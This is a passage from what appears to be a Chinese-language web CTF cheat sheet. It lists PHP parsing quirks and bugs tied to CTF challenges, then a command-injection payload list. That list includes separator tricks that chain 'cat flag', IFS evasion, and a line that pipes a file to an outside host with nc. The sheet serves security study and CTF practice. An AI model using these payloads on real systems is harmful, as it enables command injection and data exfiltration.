 - json_decode
    - 不直接吃換行字元和 \t 字元
    - 但可以吃 '\n' 和 '\t'
        - 會轉成換行字元和 Tab
    - 也吃`\uxxxx`形式
        - `json_decode('{"a":"\u0041"}')`


- === bug
    - `var_dump([0 => 0] === [0x100000000 => 0])`
        - 某些版本會是 True
        - ASIS 2018 Qual Nice Code
    - https://3v4l.org/sUEMG
- openssl_verify
    - 預測採用 SHA1 來做簽名，可能有 SHA1 Collision 問題
    - e.g. [DEFCON CTF 2018 Qual - EasyPisy](https://github.com/w181496/CTF/tree/master/defcon2018-qual/EasyPisy)
- Namespace
    - PHP 的預設 Global space 是 `\`
    - e.g. `\system('ls');`

- basename (php bug 62119)
    - `basename("index.php/config.php/喵")`
        - `config.php`
    - Example: [zer0pts CTF 2020 - Can you guess it?](https://github.com/w181496/CTF/tree/master/zer0pts2020/can_you_guess_it)

- strip_tags (php bug 78814)
    - php version <= 7.4.0
    - `strip_tags("<s/trong>b</strong>", "<strong>")`
        - `<s/trong>b</strong>`
    - Example: [zer0pts CTF 2020 - MusicBlog](https://github.com/w181496/CTF/tree/master/zer0pts2020/MusicBlog)

- mb_strpos / mb_substr
    - 當 `mb_strpos` 讀到 utf-8 leading byte ，他會繼續嘗試往下讀; 遇到 invalid byte 時，前面的內容會被當成一個 character
        - Example: `mb_strpos("\xf0\x9fAAA<BB", '<')` -> `4` 
    - 而 `mb_substr` 則有不一致，當遇到 leading byte 時，會跳過 continuation bytes
        - Example: `mb_substr("\xf0\x9fAAA<BB", 0, 4)` -> `"\xf0\x9fAAA<B"`
    - ref: [Joomla XSS](https://www.sonarsource.com/blog/joomla-multiple-xss-vulnerabilities/)

# Command Injection

```
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc kaibro.tw 5278`

. flag
PS1=$(cat flag)

`echo${IFS}${PATH}|cut${IFS}-c1-1`
=> /
```
